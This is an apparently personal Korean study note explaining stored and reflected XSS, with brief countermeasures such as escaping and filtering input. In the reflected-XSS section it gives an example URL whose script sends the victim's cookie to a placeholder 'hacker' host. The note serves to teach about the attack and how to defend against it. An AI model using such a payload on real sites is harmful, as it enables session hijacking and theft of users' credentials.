 # XSS(Cross-Site Scripting)
`XSS`는 Cross-Site Scripting의 약어로, 공격자가 공격하려는 웹사이트에 스크립트를 삽입하여 사용자의 웹 브라우저에서 해당 코드가 실행되도록 하는 공격 기법이다.
따라서 사용자가 의도하지 않은 행동을 수행시키거나, 쿠키나 세션 토큰 등의 민감한 정보를 탈취하여 세션 하이재킹(Session Hijacking) 공격으로 악용될 수 있다.

### XSS 공격 종류 및 기법
1. Stored XSS(또는 Persistent XSS)
- 사이트 게시판이나 댓글, 닉네임 등 스크립트가 서버에 저장되어 지속적으로 실행되는 방식이다.<br>
- 'Cross-Site Scripting' 이름에서 알 수 있듯이 대부분 자바스크립트를 사용하여 공격이 이뤄지며, SQL Injection과 같이 공격 기법이 비교적 단순하고 기초적이지만 많은 웹사이트가 XSS에 대한 방어 조치가 미비하기에 발생한다.

```
<script>악성 스크립트</script>
```
- 먼저 공격자가 웹 애플리케이션 상에서 XSS 취약점이 있는 곳을 파악하고, 위와 같은 형식의 악성 스크립트를 삽입한다.<br> 
삽입된 악성 스크립트는 데이터베이스에 저장되고, 악성 스크립트가 저장된 게시글 등을 열람한 사용자들은 악성 스크립트가 작동함에 따라 쿠키나 세션 등의 민감 정보를 탈취당하거나 다른 웹사이트로 리다이렉션될 수도 있다.

2. Reflected XSS
- Stored XSS와 달리, 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발행하는 반사형 공격 기법이다.<br>
  보통 GET 방식을 사용하는 URL 파라미터에 악성 스크립트를 삽입하여 서버에 저장하지 않고 즉각적으로 스크립트를 만드는 방식이다.
- 일반적으로 공격자가 악성 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악성 스크립트가 실행됨에 따라 공격을 당하게 된다.
- 예시로, GET 방식으로 검색 기능을 구현한 웹 애플리케이션에 XSS 취약점이 존재하는 것을 확인한 공격자는 다음과 같이 검색 인자로 작성한 스크립트를 URL과 함께 사용자에게 전송한다.
```
http://testweb?search=&amp;lt;script&amp;gt;location.href(&quot;http://hacker/cookie.php?value=&quot;+document.cookie);&amp;lt;/script&amp;gt;
```
- 위 URL을 누르게 되면 악성 스크립트가 작동을 해서 공격자의 웹 페이지로 사용자의 쿠키값이 전송된다.

### XSS 대응방안
1. XSS 방어 라이브러리 활용 및 브라우저 확장 앱 사용
- XSS를 막아주는 여러 라이브러리를 사용하면 손쉽게 XSS를 방어할 수 있다.
- XSS 라이브러리를 사용하는 것은 서버 단에서 개발자가 추가하는 것이다.
3. 입력값 검증 및 필터링 및 이스케이프 처리
- 사용자로부터의 입력값을 검증하고, 허용되지 않는 문자나 코드를 필터링합니다.<br>
  정규 표현식이나 라이브러리를 활용하여 태그나 스크립트와 관련된 코드를 차단하거나 이스케이프 처리합니다.

